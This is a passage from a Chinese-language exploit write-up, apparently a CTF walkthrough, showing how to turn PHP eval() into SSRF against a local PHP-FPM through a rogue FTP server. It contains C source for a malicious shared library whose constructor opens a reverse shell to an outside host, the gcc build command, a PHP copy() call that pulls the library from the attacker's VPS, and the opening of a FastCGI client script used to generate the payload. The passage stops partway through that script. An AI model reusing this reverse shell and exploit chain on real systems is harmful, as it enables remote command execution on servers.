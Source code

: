 好了，既然我们可以通过 eval() 执行任意代码，那我们便可以构造恶意代码进行 SSRF，利用 SSRF 攻击本地的 PHP-FPM。我们可以通过在vps上搭建恶意的ftp，骗取目标主机将 payload 转发到自己的 9001 端口上，从而实现攻击 PHP-FPM 并执行命令，原理上文已经讲过了。

首先使用以下c文件 hpdoger.c 编译一个恶意的 .so 扩展，这里直接用网上亘古不变的写法：

```plain
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1'");
}
```

通过 shared 命令编译：

```plain
gcc hpdoger.c -fPIC -shared -o hpdoger.so
```

[![](assets/1698897074-dea91a158b9d1001fb69cdf76bb694f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134749-960b1ee2-b2e5-1.png)

然后将生成的 hpdoger.so 上传到目标主机（我这里上传到 /tmp 目录，可以使用 `copy('http://vps/hpdoger.so','/tmp/hpdoger.so')` ）

然后简单修改以下脚本（根据 [fcgi\_jailbreak.php](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi_jailbreak.php) 改的）并执行，生成 payload：

```plain
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
```
